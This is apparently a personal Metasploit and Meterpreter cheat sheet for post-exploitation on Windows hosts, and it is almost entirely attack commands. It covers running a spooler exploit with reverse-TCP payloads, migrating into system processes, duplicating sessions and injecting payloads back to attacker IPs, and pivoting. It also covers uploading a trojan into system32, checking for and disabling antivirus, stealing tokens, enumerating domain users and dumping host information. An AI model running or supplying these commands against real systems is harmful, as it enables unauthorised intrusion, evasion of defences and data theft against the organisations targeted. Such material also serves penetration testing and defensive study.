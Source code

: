## Metasploit:  

    msfconsole [-n disables database support]
        Log output:  spool /root/20220317-log.1
        help <cmd>
        sessions [-h / -l / -i # / -k #]
        search [type: exploit platform:windows name:Microsoft app:server]
        info [exploit/windows/smb/ms10_061_spoolss]
        use [exploit/windows/smb/ms10_061_spoolss  \\  #]
            show options
                show advanced
            set payload [windows/meterpreter/reverse_tcp]
                RHOST (exploit): where the packet goes next
                LHOST (payload): the IP of the box that the target box will send the packet to
            set prependmigrateprocess spoolsv.exe
            set prependmigrate true
        exploit  
   
## Meterpreter:  

    General Commands:
          https://www.hackers-arise.com/ultimate-list-of-meterpreter-command
          help
          Run Script: run ... - scripts located in /usr/share/metasploit-framework/modules/post and /usr/share/metasploit-framework/scripts/meterpreter
              Useful Scripts: https://www.hackers-arise.com/ultimate-list-of-meterpreter-scripts
          Run Command:
              run multicommand -cl ["cmd.exe /c at","cmd.exe /c schtasks /query"  \\  "cmd.exe /c dir c:\\windows\\temp /od /tw"] [-f <local output file>]
              Background:  execute [-f fpipe.exe -a '-l 12345 -r 45678 192.168.11.26']
              shell  \\  execute -i -f [/system/bin/sh  \\  cmd.exe]
              WMIC:  run post/windows/gather/wmic_command COMMAND="startup list"
          background
          upload/download   (ex.  download [c:\\boot.ini]  ;  upload [evil_trojan.exe c:\\windows\\system32])
          reg
          search  (ex.  search [-f autoexec.bat] [-f sea*.bat c:\\xamp\\])
          edit <file> (uses vim)
          resource <local file>  (runs script of commands)
          kill

    Techniques:
          Migrate to Stable Process:  migrate <PID of spoolsv.exe>
          Switch Payload Architecture:  use post/windows/manage/archmigrate; set SESSION 1; set IGNORE_SYSTEM=true
          Duplicate Session:  use post/windows/manage/multi_meterpreter_inject; set ... IPLIST="IP of next hop back--prob jump internal IP, same as rev shell IP" LPORT=3333 SESSION=1 HANDLER=true PAYLOAD=windows/x64/meterpreter/reverse_tcp  
              Or:  run duplicate -D -P 364 -p 443 -r 192.168.137.152  ;  -P <PID>, -r <Attacker IP>, -p <remote port>, -D disable the automatic exploit/multi/handler
          Open another shell:  use post/windows/manage/payload_inject; set ... LHOST=172.17.10.80 LPORT=4444 SESSION=1 HANDLER=true PAYLOAD=windows/x64/meterpreter/reverse_tcp
          Upload file:  upload "/root/psloglist.exe" "c:/windows/temp/psloglist.exe"
          Pivot:  execute -f fpipe.exe -a '-l 12345 -r 12345 192.168.1.1'
          search -f *.txt -d c:\\documents\ and\ settings\\administrator\\desktop\\

    Situational Awareness:
          localtime  \\  run multicommand -cl "cmd.exe /c date /t","cmd.exe /c time /t","cmd.exe /c w32tm /tz"  \\  run post/windows/gather/wmic_command COMMAND="os get localdatetime"
          ipconfig  \\  run get_local_subnets
          netstat
          getuid
          getpid
          ps
          run post/windows/gather/enum_logged_on_users
          idletime
          sysinfo
          run multicommand -cl 'cmd.exe /c systeminfo' 
    Users/Privs:
          getprivs  \\  run post/windows/gather/win_privs
        getsid
        run multicommand -cl "cmd.exe /c net users","cmd.exe /c net accounts"
        run multicommand -cl 'cmd.exe /c net localgroup administrators' 
    Environment:
        run get_env  \\  run post/multi/gather/env
        run checkvm
        Check AV:
            ps
            run getcountermeasure
            run post/windows/gather/enum_applications
            run post/windows/gather/wmic_command COMMAND='/node:localhost /namespace:\\root\securitycenter2 path antivirusproduct get * /format:list'
                Confirm:  run multicommand -cl 'cmd.exe /c sc queryex state= all|findstr /i /r "Defender Security Virus Symantec McAfee Baidu Sophos Scan Client Agent Malware Kaspersky"'  \\  run multicommand -cl 'cmd.exe /c wmic process get commandline /format:list|findstr /i /r "Defender Security Virus Symantec McAfee Baidu Sophos Scan Client Agent Malware Kaspersky"'					
                Status:  run multicommand -cl 'cmd.exe /c sc query [WinDefend\SAVService\...]'
                #run killav  \\  #run virusscan_bypass
        Check Firewall:
            run multicommand -cl "cmd.exe /c netsh advfirewall show currentprofile","cmd.exe /c netsh advfirewall show allprofiles"  \\  run multicommand -cl "cmd.exe /c netsh firewall show config"
            run multicommand -cl 'cmd.exe /c netsh advfirewall monitor show firewall'
            run multicommand -cl 'cmd.exe /c netsh advfirewall firewall show rule name=all > c:\windows\temp\rules.txt' ; download c:/windows/temp/rules.txt /tmp ; rm c:/windows/temp/rules.txt ; dos2unix -n -f /tmp/rules.txt /tmp/rules2
                *Note the profiles
                *Check Enabled, Direction, Profile, Protocol, Action
                **Check Default Policy** -> port might be allowed by default
        Check Auditing:  run multicommand -cl 'cmd.exe /c auditpol /get /category:*'
        Hardware:  run post/windows/gather/wmic_command COMMAND="computersystem get TotalPhysicalMemory"; run post/windows/gather/wmic_command COMMAND="computersystem get FreePhysicalMemory"  \\  run multicommand -cl 'cmd.exe /c systeminfo'        
    Networking:
        run multicommand -cl 'cmd.exe /c nbtstat -n'
        route
        run multicommand -cl "cmd.exe /c netsh interface ip show config"  (Shows DNS server, etc.)
        getproxy
        Domain Enum:  run multicommand -cl "cmd.exe /c nbtstat -n"; load extapi; adsi_computer_enum <domain>; adsi_user_enum <domain>; adsi_nested_group_user_enum <domain> "CN=Domain Admins,CN=Users,DC=boot,DC=lab"; might need to: steal_token <PID of user process> ; then drop_token
        Resolve Hostname:  resolve <hostname>
        Scan:
            use post/windows/gather/arp_scanner
            use auxiliary/scanner/portscan/tcp
    Enumeration:
        ps
        run post/windows/gather/enum_applications
        reg enumkey -k 'HKLM\software'
        reg enumkey -k 'HKLM\software\microsoft'
        run multicommand -cl "cmd.exe /c at","cmd.exe /c schtasks /query"
        run post/windows/gather/enum_services  \\  run multicommand -cl "cmd.exe /c sc queryex state= all"
        run multicommand -cl "cmd.exe /c net use","cmd.exe /c net share"  \\  run post/windows/gather/enum_shares
        run post/windows/gather/forensics/enum_drives  \\  show_mount
        run post/windows/gather/wmic_command COMMAND="startup list"
        reg queryval -k 'HKLM\software\microsoft\powershell\1\powershellengine' -v powershellversion
        search -f *.doc* ; search -f *.xls* ; search -f *.ppt* ; search -f *.pdf*
        run multicommand -cl 'cmd.exe /c where /R C:\users *.exe | findstr /i "Temp"'
    Dump Info:
        run remotewinenum -u administrator -p password -t 10.1.1.1
        run scraper
        run winenum
